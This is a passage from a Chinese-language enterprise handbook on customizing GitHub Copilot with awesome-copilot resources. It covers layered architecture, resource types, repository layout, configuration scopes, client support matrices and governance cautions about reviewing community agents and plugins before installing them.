> ⚠️ **企業實務建議（建議架構）**：把 `trojan-skill-hunter` 與 `agent-supply-chain` 的「檢查面向」抄進企業自己的第 21 章 Checklist，但**不要直接安裝這兩個社群 Agent／Skill 就當成安全防線**——用一個未經審查的社群資源去審查其他未經審查的社群資源，邏輯上是循環的。正確做法是：人工閱讀它們的 `SKILL.md`／`.agent.md` 內容，萃取檢查項目，改寫成企業自建、經過 CODEOWNERS 保護的版本。

另外值得注意的是 **Advanced Security plugin（`advanced-security@copilot-plugins`）**：它由 `copilot-plugins` 這個 GitHub 官方預設 Marketplace 提供，讓 Agent 在 commit 前透過 GitHub MCP Server 掃描 Secret 與相依套件弱點。對已購買 GitHub Advanced Security 的企業而言，這是**優先於任何社群資源**的選項（官方已實作）。

### Scenario

某團隊的 Tech Lead 想幫團隊導入 Code Review Agent，直接從 awesome-copilot 網站複製了一個 `code-reviewer.agent.md` 並安裝到全公司共用的 GitHub org 層級設定。三週後才發現該 Agent 的 `tools` 欄位授權了無限制的 Shell 執行權限，且沒有人在安裝前逐行讀過內容。**正確做法**：先在個人 Sandbox Repository 安裝、逐行閱讀 frontmatter 授權範圍、確認無誤後才提交企業版的 Fork（依第 34 章命名慣例調整），而不是直接對全組織生效。

### 本章 Checklist

- [ ] 已理解 awesome-copilot 是「社群精選集」而非「官方規格文件」
- [ ] 已知道現行五大資源類型與各自路徑慣例
- [ ] 已知道 `chatmodes/`／`prompts/`／`collections/` 是已移除的舊結構
- [ ] 已知道 `docs/README.*.md` 是 CI 產生的索引，並已評估企業 Catalog 是否要改為自動產生（第 2.8 節）
- [ ] 已評估 awesome-copilot MCP Server 是否符合企業的 Docker 使用政策
- [ ] 已依第 2.9 節盤點「治理類資源」，並確認企業是否已有 Advanced Security plugin 可用
- [ ] 安裝任何資源前，已建立「先讀內容、後安裝」的團隊習慣

---

## 3. 整體架構：GitHub Copilot 客製化五層模型

### 3.1 分層架構圖

依查證結果，GitHub Copilot 的客製化機制可以整理成五層，awesome-copilot 的資料夾結構幾乎逐層對應：



（實線＝已查證的官方機制／依賴關係；虛線＝Plugins 可打包其他層資源的建議性關係，依 Agent Plugins 1.0 規格）

### 3.2 各層如何協作

| 層級 | 角色 | 觸發時機 |
|---|---|---|
| 指令層 | 提供「長期背景與規則」，每次對話都會被自動注入 | 每次 Copilot Chat / Agent Mode 對話開始時 |
| 行為層 | 定義「特定角色/任務的行為模式」（Custom Agents）與「可重複調用的能力包」（Skills），或「一鍵觸發的指令模板」（Prompt files） | 使用者切換 Agent、Copilot 判斷相關性載入 Skill、使用者輸入 `/prompt-name` |
| 自動化層 | 在 Agent 執行生命週期的特定事件點（sessionStart、preToolUse 等）或 GitHub Actions 事件觸發，執行確定性的 Shell 指令 | Agent session 生命週期事件 / GitHub Actions 事件 |
| 連接層 | 讓 Agent 能存取外部工具、資料、系統（GitHub、資料庫、Jira 等） | Agent 判斷需要外部資訊/工具時呼叫 |
| 打包分發層 | 把上述任意層的資源打包成一個可安裝單位，透過 Marketplace 分發 | `copilot plugin install` 時一次性安裝 |

### 3.3 與 awesome-copilot 資料夾的對應關係

| Copilot 官方分層 | awesome-copilot 對應資料夾 |
|---|---|
| 指令層 | `instructions/` |
| 行為層（Agents／Skills） | `agents/`、`skills/` |
| 自動化層 | `hooks/`、`workflows/` |
| 連接層 | 未獨立資料夾，但根目錄有 `mcp.json` 範例，多數 Agent／Plugin 會內含 MCP 設定 |
| 打包分發層 | `plugins/` |
| （額外） | `cookbook/`（Copilot SDK／API 範例）、`extensions/`（Canvas Extensions）、`website/`（官網原始碼） |

### Scenario

企業導入初期常見的困惑是「Instructions、Agents、Skills 到底該先做哪一個？」。依這張分層圖，建議順序是：先把**指令層**（`copilot-instructions.md` + 幾個 `*.instructions.md`）做好，這是成本最低、影響最廣的一層；接著才依需求逐步加上行為層的 Custom Agents／Skills；自動化層（Hooks）與打包分發層（Plugins）留到團隊已經有穩定的 Agent／Skill 之後再做，因為這兩層牽涉 Shell 執行與跨團隊分發，風險與維運成本較高。

### 本章 Checklist

- [ ] 團隊已理解五層架構，且知道各層的觸發時機不同
- [ ] 已規劃「先做指令層，再做行為層」的漸進導入順序
- [ ] 已知道 Plugins 是「打包層」，會用到其他四層的資源

---

## 4. Resource Model 完整介紹

本章對 awesome-copilot 收錄的 11 種資源類型做總覽介紹；其中 Agents、Instructions、Skills、Hooks、Plugins、MCP 六項在第 6-14 章有專門的深入章節與完整範例，本章僅做定位與快速比較，避免重複。

### 4.1 資源類型總覽表

| 類型 | 是什麼 | 解決什麼問題 | 使用時機 | 不適合情況 | 常見目錄 | 深入章節 |
|---|---|---|---|---|---|---|
| **Agents** | 具名角色、有專屬工具授權與行為模式的客製化代理（`.agent.md`） | 需要「以特定角色/專業視角」處理任務，且該角色有固定的工具集/限制 | Code Review、Security Review、Architecture Review 等專業任務 | 只是想套用簡單規則時（改用 Instructions） | `.github/agents/` | 第 9 章 |
| **Instructions** | 依檔案路徑自動套用的規則（`*.instructions.md`）或 repo 全域規則（`copilot-instructions.md`） | 團隊 Coding Standard、命名規範、架構限制需要「自動、每次都套用」 | Java/Vue coding standard、安全規範、測試規範 | 需要多步驟流程或工具調用時（改用 Skill／Agent） | `.github/instructions/` | 第 7 章 |
| **Skills** | 可重複調用的能力封裝，含 `SKILL.md` 與可選的腳本/範本/參考資料 | 一套需要多步驟、可能需要 bundled 資源的專業能力（例如逆向工程分析流程） | Framework Migration 分析、Reverse Engineering、複雜的多步驟工作流程 | 單純的靜態規則（改用 Instructions） | `.github/skills/<name>/` | 第 8 章 |
| **Hooks** | 在 Agent 生命週期事件點自動執行的 Shell 指令（`.github/hooks/*.json`） | 需要「確定性」而非「AI 判斷」的自動化，例如強制跑測試、掃描 Secret | Pre-commit 檢查、Session 開始/結束的環境準備 | 需要 AI 判斷邏輯的情況（改用 Agent／Skill） | `.github/hooks/` | 第 13 章 |
| **Workflows（Agentic）** | 透過 `gh-aw` 擴充套件編譯、跑在 GitHub Actions 上的 Agent 工作流程 | 需要在 CI/CD 環境中跑自主 Agent 任務（例如自動巡檢 Issue） | 排程性、事件驅動的 Repository 自動化 | 需要即時互動的情境 | `.github/workflows/`（原始 `.md` 定義） | 本節 4.2 |
| **Plugins** | 打包一組 Agents／Skills／Hooks／MCP／LSP 設定成單一可安裝單位（`plugin.json`） | 需要把一整套能力「一次分發」給團隊或組織 | Enterprise Toolkit、跨專案共用的標準能力組 | 只有單一資源要分享時（直接分享該資源即可）；**Instructions 不能被打包進 Plugin** | `plugins/<name>/` | 第 11-12 章 |
| **MCP Servers** | Agent 與外部工具/資料/系統的連接層 | 需要查詢資料庫、Jira、GitHub、內部系統等外部資源 | 需要 Live Data 或執行外部動作 | 純粹的靜態規則或程式碼生成 | `.vscode/mcp.json`、`~/.copilot/mcp-config.json` | 第 14 章 |
| **Cookbook** | Copy-paste-ready 的 Copilot SDK／API 範例 | 需要用程式碼直接呼叫 Copilot API/SDK 建立自己的整合 | 開發內部工具、CI 腳本呼叫 Copilot | 一般日常開發（不需要寫程式呼叫 API） | `cookbook/` | 本節 4.3 |
| **Canvas Extensions** | Copilot app 的互動式擴充體驗（`extension.mjs` + 成對的 `plugin.json`） | 需要在 Copilot app 中提供互動式 UI（視覺化規劃、儀表板等） | 規劃型、需要图形介面而非純文字對話的任務 | 命令列或 CI 情境（無 UI 宿主） | `extensions/` + `plugins/` | 本節 4.4 |
| **Learning Hub** | awesome-copilot 官網的教學文章區 | 需要系統性學習 Copilot／awesome-copilot 用法 | 新人 Onboarding、專題式學習 | — | 官網導覽列 | 第 2.3 節 |
| **llms.txt** | Machine-readable 索引檔，供 LLM/Agent 快速理解倉庫內容 | Agent 需要「不爬取整個 repo」就能理解資源清單 | 建立自己的 Agent 去查詢 awesome-copilot 內容時 | 人類閱讀（人類直接看官網或 README 更直觀） | `https://awesome-copilot.github.com/llms.txt` | 第 2.3 節 |
| **Marketplace** | Copilot CLI 的 Plugin 來源註冊機制 | 需要從特定來源（如 awesome-copilot）安裝 Plugin | 導入 Plugin 生態系 | 不使用 Plugin 機制時不需要 | `copilot plugin marketplace add <org>/<repo>` | 第 12 章 |

### 4.2 Agentic Workflows（`gh-aw`）補充說明

Agentic Workflows 是透過獨立的 GitHub CLI 擴充套件 `gh-aw`（`gh extension install github/gh-aw`）將以 `.md` 撰寫的 Agent 工作流程「編譯」成 GitHub Actions 可執行的 `.lock.yml`，讓 Agent 任務能排程或依 GitHub 事件觸發，跑在 CI/CD 環境中（Source-confirmed，來自 awesome-copilot `workflows/` 目錄慣例）。

安裝與使用流程（示意）：

```bash
# 安裝 gh-aw 擴充套件
gh extension install github/gh-aw

# 將 workflow 定義（.md）放入 .github/workflows/
# 本地驗證與測試編譯（不產生實際檔案，僅檢查語法與權限設定是否正確）
gh aw compile --validate --no-emit

# 確認無誤後正式編譯成 GitHub Actions 可執行檔
gh aw compile

# 只提交 .md 原始定義，不要提交編譯產物 .lock.yml（依 awesome-copilot CONTRIBUTING.md 規範）
git add .github/workflows/my-workflow.md
git commit -m "feat: add agentic workflow"
```

`.md` 定義需包含的 frontmatter：`name`、`description`、`on`（觸發事件）、`permissions`、`safe-outputs`（Source-confirmed，來自 CONTRIBUTING.md）。

### 4.3 Cookbook 補充說明

`cookbook/` 資料夾收錄 Copilot SDK（`copilot-sdk/`）的程式化範例，搭配 `README.md` 與 `cookbook.yml` 索引，適合需要「用程式碼呼叫 Copilot」而非透過 IDE 互動的情境，例如企業內部工具要整合 Copilot 能力、CI Pipeline 要自動化呼叫 Copilot 做程式碼分析等。

### 4.4 Canvas Extensions 補充說明

> ⚠️ 查證時仍**未找到** `docs.github.com` 上針對 Canvas Extensions 的獨立官方文件頁；但 2026-08-28 複查發現，**awesome-copilot 官網 Learning Hub 已有專文「Working with Canvas Extensions」**，且 `CONTRIBUTING.md`（Source-confirmed）定義了明確的目錄與驗證規範，資料完整度已比上一版提升。

```text
extensions/<extension-id>/
└── extension.mjs        # Canvas Extension 原始碼元件

plugins/<extension-id>/  # 需與 extensions/ 下同名，成對存在
└── plugin.json          # 對應的 Plugin manifest，name 需與資料夾同名
```

**實作時最容易失敗的三個點（Source-confirmed，取自 `CONTRIBUTING.md`）**：

1. `plugin.json` 中的 `extensions.com.github.copilot.logo` **必須恰好是 `"assets/preview.png"`**，不可改成其他路徑或檔名。
2. **不可新增 `canvas.json`**——此檔不屬於現行規格，加了反而會驗證失敗。
3. 一定要執行 `npm run plugin:validate` 驗證，不可僅靠目測。

建立方式上，Learning Hub 說明可在 Copilot app 中以 `/create-canvas` slash command 產生並逐步演進 Canvas，不必從空白手寫 `extension.mjs`。

企業導入時應將其視為「Plugin 生態的延伸能力、有 Repository 內部貢獻規範與 Learning Hub 教材可循，但仍缺乏 `docs.github.com` 獨立說明頁」的狀態，安裝前比照 Plugin 的安全審查流程處理（第 21 章），並持續關注官方文件是否補齊獨立頁面。

### 4.5 GitHub Copilot app 與 Automations（新增）

2026-08-28 複查時，awesome-copilot Learning Hub 的 Getting Started 區已以 **GitHub Copilot app** 為首選入口，這是上一版手冊尚未涵蓋的重要變化（Source-confirmed）。

| 項目 | 說明 | 對企業的意義 |
|---|---|---|
| GitHub Copilot app | 桌面程式，定位為「平行指揮多個 Agent 的控制中心」，使用**隔離的 worktree** 避免多 Agent 互相覆寫 | 對應第 10 章 Agent Team 協作；隔離 worktree 是目前最接近「多 Agent 安全並行」的官方解法 |
| Automations | Copilot app 內的自動化範本機制，有官方範本與實例 | 與第 13 章 Hooks、第 4.2 節 Agentic Workflows 同屬「自動化層」，導入前須釐清三者職責以免重疊 |
| Agent Merge | Copilot app 的合併輔助能力（Learning Hub Workshop Lesson 6） | 多 Agent 平行作業後的整合關卡 |
| Autopilot | Copilot app 的自主實作模式（Workshop Lesson 4） | 風險較高，須搭配第 31 章 Quality Gate 使用 |
| Plugin 安裝介面 | 在 app 中點選 **Customize → Plugins** 瀏覽 Marketplace 並安裝 | 與 CLI／VS Code 的安裝路徑不同，企業治理須同時涵蓋（見第 20.5 節） |

> ⚠️ **治理提醒**：Copilot app 是一個獨立的使用介面，它的 Plugin 安裝行為不會因為企業在 VS Code 做了限制而自動受控。若企業已導入 Copilot app，必須依第 20.5 節的 `managed-settings.json` 做跨介面的集中管控，而不是只靠 Repository 層級的設定。

### 4.6 Copilot SDK 與 Agent Host

上一版手冊將 `cookbook/` 僅描述為「Copilot SDK 的程式化範例」；2026-08-28 複查發現 **Copilot SDK 已不只是一個選配的周邊套件，而是 Copilot 本身的執行底層**：VS Code 官方文件明載「Copilot harness 使用 Copilot SDK 並跑在 Agent Host 上」（官方已實作）。這對企業有三個實際意義：

| 面向 | 說明 | 企業對應動作 |
|---|---|---|
| **執行底層** | Copilot harness 的 Agent 迴圈由 Copilot SDK 驅動，跑在獨立於 UI 視窗的 Agent Host 程序中 | 重新檢視第 6.3 節的「Agent Host 讀 `~/.copilot/agents`」例外：這不是小細節，而是預設路徑 |
| **企業自建工具** | 可用 SDK 把 Agent 嵌入自家應用：串流回應、自訂工具、Session 管理、連接 MCP Server、建立 Custom Agent | 適合「內部平台團隊」把第 10 章 Agent Team 包裝成內部服務，而非要求每位工程師手動操作 |
| **範例來源** | awesome-copilot `cookbook/` 已收錄社群範例，含 **Copilot SDK Java Examples**（Source-confirmed，2026-08 commit 記錄） | 對 Java 為主的企業，這是目前最接近可直接參考的起點 |

另外，awesome-copilot 收錄了 `copilot-sdk` Skill，官方描述為「Build agentic applications with GitHub Copilot SDK」，觸發詞包含 embed Copilot、programmable agent、MCP server、custom agent（Source-confirmed）。

> ⚠️ **評估提醒（建議架構）**：用 SDK 自建工具會把「Agent 行為的控制權」從 IDE 的審核介面移到企業自己的程式碼中。這代表第 20 章的 Governance 控制（工具授權、人工核准關卡、稽核軌跡）**必須在你自己的應用層重新實作一次**，不能假設「VS Code 有的防護，SDK 也有」。導入前請先完成第 21 章的安全評估。

### Scenario

某團隊想幫「REST API 設計規範」建立客製化資源，卡在該用 Instructions 還是 Skill。判斷依據：如果規則是「靜態、每次都要套用、不需要多步驟推理」（例如「Controller 命名一律用 `XxxController`」），用 **Instructions**；如果是「一套需要多步驟分析、可能需要參考範本檔案的流程」（例如「依 OpenAPI 規範產生完整 API 設計文件，含版本管理、錯誤碼規範」），用 **Skill**。

### 本章 Checklist

- [ ] 已對照 4.1 總覽表，確認每種待建立的資源該歸類到哪一種類型
- [ ] 已知道 Agentic Workflows 只提交 `.md`，不提交 `.lock.yml`
- [ ] Canvas Extensions 已知悉「官方文件不完整」，安裝前需加強審查
- [ ] 若規劃以 Copilot SDK 自建工具，已確認 Governance 控制會在自家應用層重新實作（4.6）

---

## 5. Agents／Instructions／Skills／Hooks／Plugins／MCP 核心差異

### 5.1 比較表

| 元件 | 主要目的 | 觸發方式 | Scope | 是否可攜帶資源 | 是否可使用工具 | 適合情境 |
|---|---|---|---|---|---|---|
| **Instructions** | 長期背景與規則 | 自動注入（repo 全域或依 `applyTo` glob 路徑匹配） | Repo／路徑／個人／組織 | 否（純文字規則） | 不適用 | Coding Standard、命名規範、架構限制 |
| **Skills** | 可重複、可發現、可封裝的能力 | Copilot 依 `description` 相關性自動載入，或被明確 `/` 呼叫（依 client） | Repo／個人 | 是（腳本、範本、參考資料，單一 asset < 5MB） | 依 `allowed-tools` 授權 | 多步驟分析流程、需要 bundled 資源的專業能力 |
| **Custom Agents** | 具有特定角色、工具與工作流程的專業代理 | 使用者在 Chat/CLI 手動切換，或被其他 Agent `handoffs` | Repo／個人 | 是（可搭配 skills、mcp-servers 設定） | 依 `tools` frontmatter 授權 | Code Review、Security Review、Architecture Review 等角色型任務 |
| **Hooks** | 確定性的事件驅動自動化 | Agent 生命週期六事件之一（`sessionStart`／`sessionEnd`／`userPromptSubmitted`／`preToolUse`／`postToolUse`／`errorOccurred`） | Repo（須在 default branch） | 是（Shell script） | 直接執行 Shell 指令，非 AI 工具授權模型 | 強制跑測試、Secret 掃描、Session 前置準備 |
| **Plugins** | 可安裝的能力組合 | `copilot plugin install` 安裝後即生效 | Repo／個人／組織（依安裝範圍） | 是（可打包 agents/skills/hooks/mcp 設定） | 依打包內容而定 | Enterprise Toolkit、跨團隊標準能力組 |
| **MCP** | Agent 與外部工具／資料／系統的連接層 | Agent 判斷需要外部資訊/工具時主動呼叫 | 依設定檔位置（workspace／user profile） | 是（Server 本身即是外部能力） | 提供 Tool／Resource／Prompt 給 Agent 使用 | 查詢 Jira／Database／GitHub 等外部系統 |

### 5.2 用實際軟體工程案例對照

| 案例 | 應選用的元件 | 理由 |
|---|---|---|
| Java coding standard（命名、分層、例外處理規範） | Instructions | 靜態規則，每次都要套用，不需要多步驟推理 |
| Vue coding guideline（Composition API 慣例、元件命名） | Instructions | 同上 |
| Spring Boot Framework Migration 分析 | Skill | 多步驟（依賴分析→Breaking Change 偵測→設定分析→測試分析），需要封裝分析邏輯與可能的參考資料 |
| Reverse Engineering legacy system | Skill | 多步驟、需要固定產出格式（Report/Architecture Doc/Dependency Map 等），適合封裝成可重複調用的能力 |
| Security Reviewer | Agent | 需要「以資安專家角色」審視程式碼，有專屬工具集（例如唯讀存取、不可修改程式碼） |
| Architecture Reviewer | Agent | 同上，角色化、有審查工作流程 |
| 自動執行測試（每次 commit 前） | Hook | 需要「確定性」執行，不需要 AI 判斷是否要跑測試 |
| 一組完整 Web Development Toolkit（Agent＋Skill＋Instructions＋MCP 全部打包） | Plugin | 需要一次分發給整個團隊安裝 |
| 查詢 Jira／Database／GitHub | MCP | 需要即時外部資料，不是靜態規則也不是本地 Shell 指令 |

### 5.3 核心心法

> **Instructions 是長期背景與規則**——每次都在，不需要觸發，只是「always-on 的規則集」。
>
> **Skills 是可重複、可發現、可封裝的能力**——Copilot 依相關性自動判斷是否載入，可以攜帶腳本與參考資料。
>
> **Custom Agents 是具有特定角色、工具與工作流程的專業代理**——有身份、有工具授權邊界，通常由使用者主動切換或由其他 Agent Handoff。
>
> **Hooks 是確定性的事件驅動自動化**——不靠 AI 判斷，靠事件觸發執行固定的 Shell 指令，是唯一不經過「AI 推理」的一層。
>
> **Plugins 是可安裝的能力組合**——把前面幾層打包成一個分發單位。
>
> **MCP 是 Agent 與外部工具／資料／系統的連接層**——讓 Agent 的能力邊界能延伸到 Copilot 本身不具備的外部世界。

上述定義依查證結果與 GitHub 官方文件現況一致，若日後官方文件有調整，應以官方最新定義為準。

### Scenario

某企業要建立「自動執行測試」機制，工程師一開始寫了一個 Agent 讓 Copilot「判斷是否需要跑測試」，結果因為 AI 判斷不穩定，有時候該跑測試卻沒跑。**修正做法**：改用 Hook 綁定 `preToolUse` 或 CI 層級的確定性觸發，不依賴 AI 判斷「要不要跑」，只依賴事件是否發生。

### AI Prompt 範例

```text
角色：你是資深 Software Architect。

情境：我們要幫 Java + Spring Boot + Vue 3 專案建立客製化資源，
但團隊還沒決定某個規則該用 Instructions 還是 Skill。

規則內容：「所有 REST API 的 Controller 必須有對應的 OpenAPI 註解，
且回應格式必須遵循企業統一的 ApiResponse<T> 包裝格式。」

請依「是否需要多步驟推理」「是否需要攜帶 bundled 資源」
「是否每次都要套用」三個判準，建議應該用 Instructions 或 Skill，
並說明理由。
```

### 本章 Checklist

- [ ] 團隊已用 5.1 比較表建立「元件選型」的共同語言
- [ ] 已用 5.2 案例對照表驗證過至少 3 個團隊實際案例
- [ ] 已理解 Hooks 是唯一「不經過 AI 推理」的確定性自動化層

---

## 6. Repository 目錄結構

### 6.1 企業 Web Application Repository 建議配置

> ⚠️ 下列目錄樹為**建議架構**，並非所有專案都需要全部目錄；實際是否存在取決於團隊已導入哪些客製化層級。

```text
project/
├── AGENTS.md                          # 跨 agent 相容指令（Copilot／Claude／Gemini 共用，支援面有限，見第 7 章）
├── .github/
│   ├── copilot-instructions.md        # Repo 全域 Custom Instructions（官方已實作）
│   ├── instructions/
│   │   ├── java.instructions.md       # applyTo: "**/*.java"
│   │   ├── vue.instructions.md        # applyTo: "**/*.vue"
│   │   └── security.instructions.md   # applyTo: "**/*"
│   ├── agents/
│   │   ├── security-reviewer.agent.md
│   │   ├── architecture-reviewer.agent.md
│   │   └── code-reviewer.agent.md
│   ├── skills/
│   │   ├── web-application-development/
│   │   │   └── SKILL.md
│   │   ├── reverse-engineering/
│   │   │   └── SKILL.md
│   │   ├── framework-migration/
│   │   │   └── SKILL.md
│   │   └── security-review/
│   │       └── SKILL.md
│   ├── hooks/
│   │   ├── pre-commit-quality-gate.json
│   │   └── agent-workflow-guard.json
│   ├── workflows/                     # GitHub Actions（一般 CI/CD，非全部與 Copilot 相關）
│   │   └── ci.yml
│   └── prompts/                       # Prompt files（.prompt.md），若使用
│       └── api-design.prompt.md
├── src/
├── tests/
├── docs/
└── ...
```

### 6.2 哪些目錄屬於哪個系統

| 目錄／檔案 | 屬於 | 說明 |
|---|---|---|
| `.github/copilot-instructions.md`、`.github/instructions/` | Copilot Customization | 官方已實作，第 7 章詳述 |
| `AGENTS.md` | Copilot Customization（跨 Agent 相容） | 支援面有限，需查支援矩陣（第 7 章） |
| `.github/agents/` | Copilot Customization（Custom Agents） | 第 9 章 |
| `.github/skills/` | Copilot Customization（Agent Skills） | 第 8 章；與 `.claude/skills/` 相容並互通 |
| `.github/hooks/` | Copilot Customization（Hooks） | 第 13 章；須存在於 default branch |
| `.github/prompts/` | Copilot Customization（Prompt files） | `docs.github.com` 與 VS Code 官方頁面皆仍標示 Public Preview（見版本速查表） |
| `.github/workflows/*.yml` | GitHub Actions（一般 CI/CD） | 與 Copilot 客製化機制不同，是 GitHub 平台功能；若透過 `gh-aw` 編譯的 Agentic Workflow，原始定義另外放在 `.md` |
| `plugins/`（若企業自建 Plugin Repository） | Copilot Customization（Plugin 打包層） | 第 11-12 章 |
| `src/`、`tests/`、`docs/` | 一般 Repository | 與 Copilot 客製化機制無關，是專案本身的程式碼與文件 |

### 6.3 Project Scope 與 Personal Scope

| Scope | 位置 | 適用範圍 |
|---|---|---|
| Repository（Project） | `.github/copilot-instructions.md`、`.github/instructions/`、`.github/agents/`、`.github/skills/`、`.github/hooks/`、`.github/copilot/settings.json` | 該 Repository 所有協作者 |
| Repository（Claude 格式相容） | `.claude/agents/`、`.claude/skills/`、`.agents/skills/` | VS Code 會一併讀取，方便跨工具共用（見第 33 章） |
| Personal | `~/.copilot/copilot-instructions.md`、`~/.copilot/instructions/`、`~/.copilot/agents/`、`~/.copilot/skills/`、`~/.copilot/settings.json`；另支援 `~/.claude/skills/`、`~/.agents/skills/` | 僅該使用者本機，跨所有 Repository 生效 |
| Organization | GitHub.com 組織設定（Business/Enterprise 方案）；VS Code 另有 `github.copilot.chat.organizationCustomAgents.enabled` 可從組織發現共用 Custom Agents | 該組織所有成員 |
| Enterprise | `managed-settings.json`（企業管理者集中管控，見第 20.5 節） | 企業 Copilot 方案下的所有使用者、跨所有支援的 Client |

> ⚠️ **Agent Host 的例外**：VS Code 官方文件明載，Agent Host 讀取的是 `~/.copilot/agents`，**而非 VS Code 自己的 profile 資料夾**。若企業把個人層級 Agent 放在 VS Code profile 內，在 Agent Host 情境下會完全讀不到。

### 6.4 Root Level、Nested 與 Monorepo 設定

- `AGENTS.md` 預設只讀取 workspace root；VS Code 提供 `chat.useNestedAgentsMdFiles`（**Experimental**）讓 monorepo 子資料夾也能有各自的 `AGENTS.md`。
- `*.instructions.md` 透過 frontmatter 的 `applyTo` glob 決定套用範圍，本質上就是一種「巢狀/路徑範圍」機制，不需要額外的巢狀資料夾規則。
- **Monorepo 父倉庫發現（官方已實作）**：若專案是大 monorepo 底下的子倉庫，開啟 `chat.useCustomizationsInParentRepositories` 可讓 VS Code 從**父倉庫 root** 發現 Instructions／Skills／Agents，避免每個子專案都要複製一份相同的規則。其行為細節如下（2026-08-28 複查 VS Code 官方文件）：
  - **預設是關閉的**，必須手動開啟。
  - 開啟後，VS Code 從每個 workspace folder **向上尋找到含 `.git` 的目錄為止**，並收集**沒到的所有層級（含頭含尾）**的客製化。
  - 生效條件三項同時成立：workspace folder 本身**沒有** `.git`、某個父目錄**有** `.git`、且該父目錄**已被信任**。
  - 套用範圍涵蓋**所有客製化類型**：always-on instructions（`copilot-instructions.md`、`AGENTS.md`、`CLAUDE.md`）、檔案式 instructions、prompt files、custom agents、agent skills 與 **hooks**。尤其 hooks 會被継承這一點，企業須在第 20 章 Governance 中明確納入風險評估。
- **自訂存放位置**：`chat.agentFilesLocations`（Agents）與 `chat.agentSkillsLocations`（Skills）可指定額外的專案級資料夾，適合企業已有自訂目錄結構、不想遯就 `.github/` 的情境。

### 6.5 不同 Copilot Client 的支援差異

> ⚠️ 這是撰寫企業文件時最容易忽略、卻最容易導致「同事在 A 工具測試沒問題，換 B 工具就失效」的一段。務必在團隊內部文件中附上下表，並持續關注官方支援矩陣更新。

| 客製化機制 | VS Code | Copilot CLI | Copilot cloud agent | GitHub Copilot app | GitHub.com Code Review | JetBrains／Eclipse／Xcode |
|---|---|---|---|---|---|---|
| `copilot-instructions.md` | ✅ | ✅ | ✅ | ✅ | ✅ | 依官方支援矩陣，需查證當下最新狀態 |
| `AGENTS.md` | ✅（可用設定開關） | ✅ | ✅ | ✅ | ✅（**僅認 `AGENTS.md`**，不認 `CLAUDE.md`/`GEMINI.md`） | ✅（cloud agent 相關情境） |
| `*.instructions.md` | ✅ | ✅ | ✅ | 資料不足 | 資料不足，需查證當下最新狀態 | 資料不足 |
| Custom Agents（`.agent.md`） | ✅ | ✅ | 資料不足 | ✅（Learning Hub Workshop 有 app 的 Custom Agents 單元） | 不適用 | 資料不足 |
| Agent Skills（`SKILL.md`） | ✅（agent mode） | ✅ | ✅ | ✅ | ✅（官方文件列為支援對象之一） | ✅ |
| Hooks | 資料不足（VS Code 端另有 agent 層級 hooks，屬 Preview，需 `chat.useCustomAgentHooks`） | ✅ | ✅（須在 default branch） | 資料不足 | 不適用 | 資料不足 |
| Plugins | ✅ | ✅（`copilot plugin install` 或 `enabledPlugins`） | ✅（**僅支援宣告式** `enabledPlugins`，見 12.6） | ✅（Customize → Plugins） | 不適用 | 資料不足 |
| Canvas Extensions | 不適用 | 不適用 | 不適用 | ✅（`/create-canvas`） | 不適用 | 不適用 |

（本表依查證所得整理，未列出「✅」以外明確狀態的欄位一律標示「資料不足」，代表官方支援矩陣頁面未明確載明，企業導入前應自行至 `docs.github.com/en/copilot/reference/custom-instructions-support` 等頁面重新確認當下版本。）

### 6.6 四種 Harness 的選用與設定檔對照

2026 年中之後，GitHub Copilot 已明確形成**四種 harness（執行宿主）**，awesome-copilot Learning Hub 的 Workshop 也是以這四種 harness 分軌教學（Source-confirmed）。企業制定標準前須先釐清團隊實際使用哪幾種：

| Harness | 典型使用情境 | 主要設定檔 | 治理重點 |
|---|---|---|---|
| **VS Code** | 日常互動式開發、Code Review 前的自我檢查 | `.github/**`、VS Code settings（`chat.*`） | 設定分散在 workspace／profile／organization 三處，最容易出現「只有某人有效」 |
| **Copilot CLI** | 終端機作業、CI 腳本、離線批次任務 | `~/.copilot/settings.json`、`.github/copilot/settings.json` | Plugin 可命令式安裝，需靠 `managed-settings.json` 約束 |
| **Copilot cloud agent** | 非同步自主任務（跑在 GitHub Actions） | `.github/copilot/settings.json`、**設定須在 default branch** | Hooks 與 Plugin 都只認 default branch，feature branch 上的設定一律無效 |
| **GitHub Copilot app** | 平行指揮多 Agent、Canvas 規劃、Automations | app 內的 Customize 介面＋個人層設定 | 獨立於 IDE 之外的安裝路徑，**最容易逃過企業治理** |

> ⚠️ **企業實務建議（建議架構）**：請在企業內部標準中明列「本公司支援哪幾種 harness」，並針對每種 harness 列出對應的設定檔與檢查方式。實務上最常見的治理破口就是「IDE 管得很嚴，但開發者自行安裝 Copilot app 後自己裝 Plugin」，這只能靠第 20.5 節的企業級設定解決。

### 6.7 Session Target、Agent Harness 與 Code Isolation

